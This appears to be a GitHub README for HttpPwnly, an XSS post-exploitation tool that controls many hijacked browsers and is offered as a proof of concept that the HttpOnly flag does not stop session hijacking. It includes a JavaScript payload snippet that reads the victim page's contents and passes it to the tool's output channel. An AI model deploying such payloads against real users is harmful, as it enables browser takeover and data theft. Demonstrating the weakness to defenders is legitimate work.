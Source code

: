 # HttpPwnly

"Repeater" style XSS post-exploitation tool for mass browser control. Primarily a PoC to show why HttpOnly flag isn't a complete protection against session hijacking via XSS.

## Dependencies:
pip install flask flask_sqlalchemy flask_cors

## Demo:
https://www.youtube.com/watch?v=HQYzJKpBHjk

## Asynchronous payloads:
To overide normal task output data within your payload (for example in order to retrieve output from XMLHttpRequest), call the "sendOutput" function and pass it your intended output. For example:

`
var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4 && xmlhttp.status == 200) {
      sendOutput(task.id,xmlhttp.responseText);
    }
  };
  xmlhttp.open("GET", "/", true);
  xmlhttp.send();
`
